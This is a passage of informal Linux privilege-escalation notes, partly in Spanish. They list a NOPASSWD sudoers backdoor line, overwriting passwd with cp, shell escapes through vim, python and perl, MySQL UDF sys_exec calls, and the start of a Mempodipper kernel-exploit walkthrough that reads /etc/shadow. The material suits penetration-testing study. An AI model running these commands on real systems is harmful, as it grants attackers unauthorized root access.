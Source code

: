```
    Modify /etc/suoders  
    \<user> ALL=(ALL) NOPASSWD:ALL  

cp  
    Use cp to overwrite passwd with a new password  

```
### vim
```
:version
:python3 import pty;pty.spawn("/bin/bash")
```
## Usando scripting laguages.

```
python -c 'import os; os.system("/bin/bash")
perl -e 'exec "/bin/sh";'
etc...
```

&nbsp;
&nbsp;
# **10 EXAMPLES**
---
## Mysql run by root
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library
https://www.exploit-db.com/exploits/1518/

You can also try:
```
select sys_exec('echo test>/tmp/test.txt');
select sys_eval('echo test>/tmp/test.txt');
```

## Mempodipper
steve dosent have privilage

```
steve@ubuntu:   cat /etc/shadow
permission denied
steve@ubuntu: cat /etc/issue
ubuntu 11.10
steve@ubuntu: uname -a
linux ubu 3.0.0-12-generic < por ahi es vulnerable el kernel
```

podemos buscar en exploit database a ver que onda

encontramos Mempodipper - Linux Local Root for >=2.6.39, 32-bit and 64
